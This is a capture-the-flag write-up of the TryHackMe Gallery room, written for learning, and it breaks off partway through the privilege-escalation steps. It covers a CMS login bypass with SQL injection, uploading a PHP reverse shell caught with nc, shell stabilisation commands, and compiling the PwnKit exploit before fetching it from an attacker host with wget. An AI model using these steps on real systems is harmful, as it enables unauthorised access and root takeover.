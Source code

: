 # Tryhackme Gallery Room Writeup
  - Penetration Testing methodology
    - Scanning
      - Nmap Scan
    - Enumeration
      - Enumerating HTTP Service
      - Searching Exploit
      - Testing Login page
    - Exploitation
      - Reading exploit code
      - Trying exploit code
      - Finding another way to exploit cms
      - Uploading shell
    - Privilege Escalation
      - Enumerating kernel make
      - Searching Exploit
      - Compiling exploit
      - Transferring Binary
      - Getting Root Shell 
      - Getting Answers
  
  - Walkthrough
    - There are two flags to find in this room 1. User flag 2. Root flag
    - Scanning IP with Nmap we get following output
       ![1  Initialscanning](https://user-images.githubusercontent.com/75413146/153704382-d698aafd-0acd-4667-8d80-7eacdf409ee2.png)
      
      We can see that on port 80 and on port 8080 http service is running, By visiting to the IP:Port we can see that on port 8080 we see
        ![2  Visiting Simple Gallery Page](https://user-images.githubusercontent.com/75413146/153704486-a9180690-64ce-4a5c-ba51-31b2f9b857f9.png)
       I tried a payload of SQLi in Username : " ' or 1=1 -- " & Password : " a " but didn't worked.
        ![6  Running SQLi](https://user-images.githubusercontent.com/75413146/153704999-70b40ef8-a327-4027-8471-f8bbd85f7479.png)

      
      So the CMS is Simple Image Gallery after searching it for on searchsploit we get following output
        ![3  Searching Exploits](https://user-images.githubusercontent.com/75413146/153704567-3cfa0a88-6b6e-4b3b-a568-f7f4affb15f9.png)
      
      Copying the exploit to current directory.
        ![4  Copying exploit](https://user-images.githubusercontent.com/75413146/153704594-d69b866e-b8e5-47c1-8cd1-4f7417342785.png)
      
      # It's a good practice to read exploit. Even if you don't understand try to read some parts of it what and how it's doing. [ My Takeaway ]
      Before finding something i ran the code to check how the exploit works.
        ![5 4 Running Exploit](https://user-images.githubusercontent.com/75413146/153704677-b735eee4-ff08-427a-bb6b-96efaa237306.png)
      
      So the code was allowing us to execute commands via a parameter called cmd and it was uploaded in gallery/uploads directory. So i visited on the provided url and found that the code was executing. The output of whoami command.
        ![5 5 Running Exploit](https://user-images.githubusercontent.com/75413146/153704746-b20aaa41-24eb-4a83-ac47-446c4d5023e6.png)

      AFter a lot of tries to gain reverse shell through cmd parameter i was frustrated then in a try i read the code [ My Takeaway :D ] content as follows:
        ![5 1 Reading Exploit](https://user-images.githubusercontent.com/75413146/153704804-a53cb4c2-44d6-4ab8-b106-8cc1185751f9.png)
        ![5 2 Reading Exploit](https://user-images.githubusercontent.com/75413146/153704810-417bd80d-50a7-4d49-a4c9-9e0bfb3872ff.png)
        ![5 3 Reading Exploit](https://user-images.githubusercontent.com/75413146/153704800-f77a91f3-2e6f-4e4c-9c50-275d8a458ff8.png)
      
      While reading i encountered a line which seemed to me a SQLi payload see below :
        ![6  Reading Exploit](https://user-images.githubusercontent.com/75413146/153704955-8d4adc85-5e28-4e9e-9451-e9dded0f8310.png)
      
      So i got a hint that the payload which i was trying to use was not working for this room so i tried the payload which was used in exploit.
        ![6  Running simple cms exploit sqli payload](https://user-images.githubusercontent.com/75413146/153705095-858cd49c-0e39-474f-9db9-42d53c81adf5.png)
       And boooom !! i was not expecting this but it worked...
        ![7  We r in](https://user-images.githubusercontent.com/75413146/153705113-9e1847a3-3a5e-474f-a3cc-db6d6d9106fc.png)
       
       OKK !! We are in so now while walking an application i found a page " Albums " So after visiting i saw upload functionality.
        ![7 1 moving](https://user-images.githubusercontent.com/75413146/153705192-774e205e-dbc9-4382-bd2f-bec004592da2.png)

       I thought let's give it a try to upload a PHP reverse shell by Pentest Monkey ( can be found in /usr/share/webshells/php/ or can be found on google coz it's famous revershell script so will be easy to find ). 
       
       So edited my reverse shell with my IP and my favorite port
        ![6  3 Editing shell IP](https://user-images.githubusercontent.com/75413146/153705281-c31231ce-9b1a-4304-9b27-c9a443c1f54a.png)
       BTW out-of-topic : I am using 1337 coz not of i am leet but i want to be leet XD #HECKUR MINDSET
       
       Uploading the PHP Reverse Shell and listening on localhost via nc -lvnp 1337 [ for me it's 1337 you use what you typed the port to in script ]
        ![7 2 Upload shellcode](https://user-images.githubusercontent.com/75413146/153705349-6173c59a-3551-42d8-8a3e-edcd6d32d468.png)
        
       Shell Upload successfully !!!!
         ![7 3 Shell uploaded](https://user-images.githubusercontent.com/75413146/153705426-d93f1a53-2e47-4554-baa8-e7b0a1bba390.png)
         
       By clicking on the script you uploaded you can activate the shell. But don't forget to listen before you activated the shell.
        ![9 got shell](https://user-images.githubusercontent.com/75413146/153705457-65d471d2-b5ee-472c-b64d-a9f493d78b4e.png)
        
      Whoop Whoop we got shell... OKKK first things first let's stabilise our shell. I learned stabilising from What the Shell room on Tryhackme.
      - export TERM=xterm
      - which python3 [ Will allow to know what python is installed ]
      - python3 -c 'import pty;pty.spawn("/bin/bash")'
      - press CTRL+Z to bcakground the shell and also run the command on attacker machine
      - stty raw -echo ; fg
      - reset
      - [ This commands will give us a fully functional shell ]
        ![9 1 Stabilising shell](https://user-images.githubusercontent.com/75413146/153705566-476dfb91-8360-49e3-8670-4435c3b80777.png)
      By resetting you get your shell reset like below a clean shell :D
  - Privilege Escalation TIIIIIIIIIIIME !!!!
      - For privesc you can run linpeas or any other script or may enumerate manually for escalation.
      - But in this writeup we will run PwnKit to learn some new about POLKIT pkexec module exploit. The exploit code can be found here -> https://github.com/ly4k/PwnKit/blob/main/PwnKit.c 
        ![10  enumerating privesc](https://user-images.githubusercontent.com/75413146/153705878-b9531579-e336-44f6-bc6f-a5f328428b81.png)
      - Let's do this...
      Compiling the code by 
      - gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
         ![11  1 pkexec binary](https://user-images.githubusercontent.com/75413146/153705895-3944080b-9a45-4fda-ab70-b09be5dc796c.png)
        We got the binary compiled and now let's mode this to victim host.
        - 1st host a server on attacker machine we can do this by [Note : Host the server where your binary file is ! ]
          - Command : python3 -m http.server 80
        - 2nd  Go to victim terminal and download the binary by following 
          - Command : wget http://[attackerIP:PORT]/file_name
          - 

